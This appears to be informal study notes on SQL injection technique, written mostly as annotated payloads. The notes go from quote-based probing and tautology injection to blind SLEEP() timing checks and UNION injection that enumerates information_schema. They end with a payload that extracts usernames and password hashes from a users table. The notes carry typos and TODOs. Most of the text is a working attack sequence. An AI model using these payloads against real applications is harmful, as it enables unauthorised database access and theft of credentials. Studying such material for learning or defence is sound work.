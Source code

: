 ```slq
-- '
SELECT ? FROM ? WHERE ? LIKE '%'%';
-- A single quote character will tell you whether the query you send is being
-- escaped. If you get an error back indicating that the query did anything except
-- perform your query properly qouted e.g. threw an error then you know you are on
-- to something.

';--
SELECT ? FROM ? WHERE ? LIKE '%';--%';
-- If you think you have found an input which has not properly escaped the data
-- then this query should return all rows in the table

Next step is to figure out which DBMS is running this thing
thing' AND 1 = SLEEP(2);--
SELECT ? FROM ? WHERE ? LIKE '%thing' AND 1 = SLEEP(2);--%';
SLEEP() is a MySQL function
WAIT_FOR_DELAY() in SQLServer
these are blind sql injections - no auto
select from guessedtablename AND sleep(5)
if it comes back slowly then you know the table name exists

-- the number of columsn you get back in the results can tell you a little more
-- about the shape of the query e.g. if you get back three columns then you can
-- reasonably assume.
SELECT ?,?,? FROM ? WHERE ? LIKE '%somequery%';

So knowing I get back 3 columsn

SELECT ?,?,? FROM ? WHERE ? LIKE '%thing' UNION (SELECT 1,2,3 FROM dual);--%';

query: thing' UNION (SELECT 1,2,3 FROM dual);--
Aside: dual is a MySQL placeholder table name for testing - TODO: find out more
the output of the query above will tell you if you are on the right track

Aside: TODO: sql UNION

query: thing' UNION (SELECT table_name,table_schema,3 FROM information_schema.tables);--
the above query will append the list of tables in the db to the search query so you can see it on the page. From there you can find tables which seem interesting e.g. "users"



query: thing' UNION (SELECT COLUMN_NAME,2,3 FROM information_schema.columns WHERE TABLE_NAME = 'users');--
gets the shape of the users table so you know which columsn to select (we have to select less than 3)

query: thing' UNION (SELECT ulogin,uhash,utype FROM users);--
```

Second order SQLi - you put something in as a query and it gets used internally as a query
i.e. the sql gets escaped but it gets stored in the DB
